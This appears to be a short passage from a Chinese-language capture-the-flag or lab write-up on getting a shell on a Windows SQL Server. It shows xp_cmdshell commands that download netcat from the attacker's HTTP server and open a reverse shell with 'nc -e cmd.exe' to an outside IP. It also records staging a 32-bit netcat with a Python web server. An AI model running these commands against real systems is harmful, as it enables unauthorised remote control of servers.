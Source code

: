 





```
EXEC xp_cmdshell "powershell -c cd C:\users\sql_svc\Downloads; wget http://10.10.14.118:8000/nc64.exe -outfile nc64.exe"
```

运行nc64.exe报错，说系统不支持，重新下载32位的nc。迪宝之前提过但坑得自己踩才知道。

```
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.118 5566"
```

![image-20230607222049189](图片/image-20230607222049189.png)

重新去下载nc

```
wget https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
unzip netcat-win32-1.11.zip
cd netcat-1.11
cp nc.exe /opt
cd /opt
python3 -m http.server 8000
```
